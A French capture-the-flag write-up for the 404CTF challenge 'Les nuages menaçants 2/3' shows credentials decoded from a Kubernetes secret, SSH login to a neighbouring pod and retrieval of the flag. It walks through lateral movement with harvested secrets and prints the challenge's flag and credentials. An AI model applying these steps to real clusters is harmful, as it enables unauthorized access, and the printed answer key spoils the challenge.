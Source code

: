 # Les nuages menaçants 2/3

<img alt="énoncé du challenge" src="enonce.png" width=500>

Lors de la 1ère étape, on a exploité le secret `flag`.

Mais il y en avait un 2ème présent `creds`, dont le nom fait penser à credentials. Il est d'ailleurs constitué des données suivantes qui sont pour le moins évocatrices :

```json
"data": {
  "password": "bGVzX251YWdlcw==",
  "user": "cHJvdXN0"
}
```

Une fois décodées, on obtient un couple user/password :
```bash
# Décodage du user
root@start:~# base64 -d <<< cHJvdXN0 && echo
proust

# Décodage du password
root@start:~# base64 -d <<< bGVzX251YWdlcw== && echo
les_nuages
```

Ce couple doit servir à se connecter sur ? un autre pod ?

On regarde qu'elle est l'IP de notre pod `start` :

```bash
root@start:~# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0@if8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1450 qdisc noqueue state UP group default
    link/ether 62:01:32:08:03:f8 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.42.0.14/24 brd 10.42.0.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::6001:32ff:fe08:3f8/64 scope link
       valid_lft forever preferred_lft forever
```

Son IP est donc `10.42.0.14`.
Si un autre pod est déployé, l'IP de cet autre pod doit être proche.

Un `ssh` sur `10.42.0.15` ne donne rien.

Par contre, sur `10.42.0.13` cela fonctionne :

```bash
root@start:~# ssh 10.42.0.13
The authenticity of host '10.42.0.13 (10.42.0.13)' can't be established.
ED25519 key fingerprint is SHA256:Puhc03VYvi23tKCYCjAKQTo8J622KlTEwlwTxF+AoAQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes^C
```

Si on utilise les credentials obtenus précédemment, on arrive à se connecter :

```bash
root@start:~# ssh -l proust 10.42.0.13
The authenticity of host '10.42.0.13 (10.42.0.13)' can't be established.
ED25519 key fingerprint is SHA256:Puhc03VYvi23tKCYCjAKQTo8J622KlTEwlwTxF+AoAQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.42.0.13' (ED25519) to the list of known hosts.
proust@10.42.0.13's password:
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 4.15.0-209-generic aarch64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

$
```

On trouve le flag dans le fichier `/flag.txt` :

```bash
$ ls
$ pwd
/home/proust
$ cd /
$ ls
bin   dev  flag.txt  lib    mnt  proc  run   srv  tmp  var
boot  etc  home      media  opt  root  sbin  sys  usr
$ cat flag.txt
404CTF{A_la_Recherche_De_La_Racine}
```
